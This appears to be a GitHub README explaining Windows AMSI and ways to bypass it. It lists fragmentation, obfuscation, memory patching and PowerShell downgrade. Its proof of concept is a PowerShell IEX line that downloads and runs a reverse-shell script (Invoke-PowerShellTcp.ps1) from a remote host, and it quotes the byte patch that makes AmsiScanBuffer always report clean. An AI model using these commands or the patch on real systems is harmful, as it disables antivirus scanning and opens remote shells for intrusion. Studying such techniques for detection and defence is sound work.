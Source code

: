 ## Table of Contents
- [**Outline**](#section-0)
- [**Antimalware Scan Interface Explanation**](#section-1)
- [ **Proof of Concept - Bypassing 2023 Windows 10 Pro AMSI**](#section-2)
- [ **Obfuscation Methodolgy Anlysis**](#section-3)
- [ **Credits & Reference**](#section-4)
## Outline 


## AMSI 
AMSI (Antimalware Scan Interface) is a Windows feature introduced in Windows 10 and Windows Server 2016. Its primary purpose is to provide an interface that allows antivirus and other security solutions to scan and inspect scripts and code in real-time at runtime

By default windows defender interacts with the AMSI API to scan PowerShell scripts, VBA macros, JavaScript and scripts using the Windows Script Host technology during execution. This prevents arbitrary execution of code. Thus, when a script is about to be executed, it passes through AMSI, which scans the script's content for suspicious or malicious behavior. 

## AMSI Logic
When a user executes a script or initiates PowerShell, the AMSI.dll is injected into the process memory space. Prior to execution the following two API’s are used by the antivirus to scan the buffer and strings for signs of malware.

AmsiScanBuffer()
AmsiScanString()
If a known signature is identified execution doesn’t initiate and a message appears that the script has been blocked by the antivirus software

# AMSI Bypass Technique
The following evasive techniques aim to avoid detection by antivirus and security software.  

Code Fragmentation: Divide codes into smaller components and assemble at runtime, evading static analysis.
Obfuscation: Utilize obfuscation techniques to obscure the true intent of the script, making it challenging for AMSI scanners to interpret the code accurately.
Memory patching: Modify the AMSI Dynamic Link Library (DLL) in memory to either disable or alter its functionality temporarily. 
Powershell Downgrade: Downgrade to Windows PowerShell 2.0. It lacks essential security controls like AMSI protection, making it susceptible to exploitation as a means of evasion.

## Proof of Concept
![](/assets/AV/Final.gif)   

```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```


## Memory Patching
Daniel Duggan released an AMSI bypass which patches the AmsiScanBuffer() function in order to return always AMSI_RESULT_CLEAN which indicates that no detection has been found. The patch is displayed in the following line:
```bash 
static byte[] x64 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
```




## Weaponization

## Reference
- Read team playbook, Offensive Security
